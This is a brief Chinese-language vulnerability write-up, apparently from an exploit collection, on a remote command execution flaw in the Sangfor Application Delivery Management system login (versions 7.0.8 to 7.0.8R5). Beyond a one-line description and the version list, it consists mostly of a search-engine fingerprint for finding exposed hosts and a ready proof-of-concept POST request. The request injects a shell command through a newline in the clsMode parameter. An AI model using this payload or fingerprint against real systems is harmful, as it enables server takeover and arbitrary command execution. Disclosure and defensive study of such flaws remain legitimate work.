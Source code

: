 # 深信服 应用交付管理系统 login 远程命令执行漏洞

## 漏洞描述

深信服 应用交付管理系统 login 存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限，执行任意命令

## 漏洞影响

深信服 应用交付管理系统 7.0.8-7.0.8R5

## 网络测绘

```
fid="iaytNA57019/kADk8Nev7g=="
```

## 漏洞复现

登陆页面

![image-20230828164544551](images/image-20230828164544551.png)

验证POC

```
POST /rep/login 

clsMode=cls_mode_login%0Als%0A&index=index&log_type=report&loginType=account&page=login&rnd=0&userID=admin&userPsw=123
```

![image-20230828164602536](images/image-20230828164602536.png)